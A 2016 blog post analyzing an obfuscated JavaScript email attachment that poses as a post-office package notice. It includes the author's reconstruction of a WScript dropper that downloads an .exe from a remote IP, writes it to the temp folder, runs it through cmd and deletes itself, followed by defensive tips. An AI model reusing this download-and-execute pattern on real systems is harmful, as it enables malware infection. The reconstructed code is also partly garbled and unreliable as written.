 ```yaml
---
layout:     post
title:      "Analyzing JavaScript Malware"
subtitle:   "Quick Story Behind Spam Attachment"
date:       2016-10-29 0:00:00
author:     "W3ndige"
permalink: /:title/
category: Malware
---
```


<p>About half of a year ago, my girlfriend got e-mail from post office saying that the the package was ready to pickup, with a quick note saying that more information is available in the attachment. I was asked to look at it, as she found it suspicious - mail was written very poorly - definitely not what official mail would sound like. Firstly I took a look at the domain, from where this mail was sent, and as I excepted, it was not connected to domains of our post service. But what I really wanted to know was, what's the goal of the attachment? </p>

<h1>First contact</h1>

<p>After downloading it, I noticed that the extension of the file was <b>.js</b> - some JavaScript file. But it was only possible because I had turned on showing files with their extensions. Someone without this option would see it only as .txt file. Viewing the source, unfortunately at first, gave me no clue how it works. Script was made of around 400 lines of code. But after looking closer it seemed, that around quarter of the code was actually part that did something, rest was only filled with assigned variables and functions returning pieces of words. </p>

{% highlight javascript %}
var tbuloq1 = {
	itxy:'plebydva', 8423:730, ldipli:353, lgahze:"AtEn", ekxov:'dipyvvo'
}
["lgahze"];
function daqkuvtejqa3 () {
           var ssororg0 = {
		lifki:'hylxyzra', 2216:"d", 6034:'ubylivw'
	}
	;
	var xhahbolz3 = ssororg0["2216"];
           return xhahbolz3;
}

{% endhighlight %}

<p>But after some time I noticed a pattern - in last 30 lines of code, there were only references to the variables, and after connecting them together what I got, was much more readable than before. In example, if you take this piece of code and connect to the variables in the beggining, what you'll get is something more likely looking like this. </p>

{% highlight javascript %}
ejybpib6= zoracufyp7[nsatqe9 + oxqokowj9 + ynxyru7 + exgemko2];
{% endhighlight %}

<p>Great, now to make it clearer to read I have to do the same. Unfortunately I'm not completely sure that it's 'translated' 100% correctly, but it still gives me insight into how this script may work. </p>

{% highlight javascript %}
ejybpib6 = this.WScript;
{% endhighlight %}

<p>Finally, after around 3 hours, I got the full translation. But I've got still a few questions, what is WScript and how it works? </p>

{% highlight javascript %}
ejybpib6 = this.WScript;
ehynzedda7 = WScript.CreateObject(Scripting.FileSystemObject);
elmona4 = WScript.CreateObject(WScript.Shell);
acjihy9 = WScript.CreateObject(MSXML2.XMLHTTP);
jyfej9 = WScript.CreateObject(ADODB.Stream);
oqavate7 = ehynzedda7.GetSpecialFolder(2);

if (typeof document == undefined) {
  kagignu5 = WScript.CreateObject(Scripting.FileSystemObject).GetTempName();
}

if(typeof WScript.StdIn.AtEndOfStream == unknown) {
  ixzebni1 = WScript.CreateObject(MSXML2.XMLHTTP).open(GET, 'http://some_ip_address/8899.exe', 0);
}
ixzebni1 = WScript.CreateObject(MSXML2.XMLHTTP).send();
WScript.CreateObject(ADODB.Stream).type = 1;
try {
    if(!WScript.Arguments.Unnamed.length]) {
			oxacobmo3 = WScript.CreateObject(MSXML2.XMLHTTP).ResponseBody;
		}
    ruzetpa0 = WScript.ScriptFullName;
    ixzebni1 = WScript.CreateObject(ADODB.Stream)Open();
    ixzebni1 = WScript.CreateObject(ADODB.Stream).Write(oxacobmo3);
    ixzebni1 = WScript.CreateObject(ADODB.Stream).SaveToFile(oqavate7 + kagignu5);
    ixzebni1 = WScript.CreateObject(ADODB.Stream).Close();
    ixzebni1 = WScript.CreateObject(WScript.Shell).run(cmd.exe /c + oqavate7 + kagignu5, 0;
    ixzebni1 = WScript.CreateObject(Scripting.FileSystemObject).deleteFile(ruzetpa0);
}
catch(e) {
}

{% endhighlight %}

<p>Okay, as far as I can understand, it downloads the file from url (not shown in this code), and somehow executes it, maybe using cmd?  But for better insight I had to dig for references showing the use of the WScript and other functions show in this code. </p>

<h1>Understanding</h1>

<p><b>Windows Host Script</b> is an Windows eviroment, providing the user with a possibility to run scripts in a variety of languages. By default, when JavaScript is saved to your hard drive, it will be run by WSH with power of executable file. </p>

<p>Script uses these WScript calls: </p>

<ul>
<li><b>WScript.CreateObject(WScript.Shell)</b> - provides access to shell methods of operating system.</li>
<li><b>WScript.CreateObject(MSXML2.XMLHTTP)</b> - XML request using HTTP.</li>
<li><b>WScript.CreateObject(ADODB.Stream)</b> - is used to represent a stream of data or text.</li>
</ul>

<p><b>GetSpecialFolder(2)</b> will get the %TEMP% folder. </p>

<p>Then the script creates the XML request to get the data from specified URL and, then it sends the request. </p>

<p>After that script creates a series of commands to: </p>

<ol>
<li>Get the response body of the request. </li>
<li>Write it to a file in tmp directory. </li>
<li>Save and close the file. </li>
<li>Execute through CMD</li>
<li>Lastly, it will delete the file. </li>

</ol>

<p>Unfortunately, .exe file was not available, while I got to check, and I couldn't find as much info about it as I wanted. The only information I could find were: </p>

{% highlight text %}
Operating System: Windows 7 / 8 / 8.1 / 10
Singature Name: QVM07.1.Malware.Gen

Main Info:

Name: 8899.exe

Size: 569464

Type: PE32 executable (GUI) Intel 80386, for MS Windows

MD5: 3771453fc565a0436534d509dcb7da9f

SHA1: 803e3634a70dd3b9ce2b409b108cb1baf5fa3d08

Freezing computer.
New home page in browsers.
Ads and pop-ups on desktop and browser.
Very slow loading speed of webpages.
Computer work slower then usual.
{% endhighlight %}

<h1>Conclusion</h1>

<p>Author of this malware did a lot, to try and obfuscate this script, as I spent a lot of time trying to make it readable, but still it wasn't as complicated as I thought at first. To stay protected from these kinds of attacks, remember to tell explorer to open .js files through the Notepad by default, as well as show files with their extensions. That way you will see if it's really a text document or .txt.js malware. And the most important step, don't download files that you're unsure about. Simply, don't trust anyone ;) </p>

<p>I had great fun, trying to understand the concept, and even though you may think, that it was very simple, I still learned a lot from this.  </p>
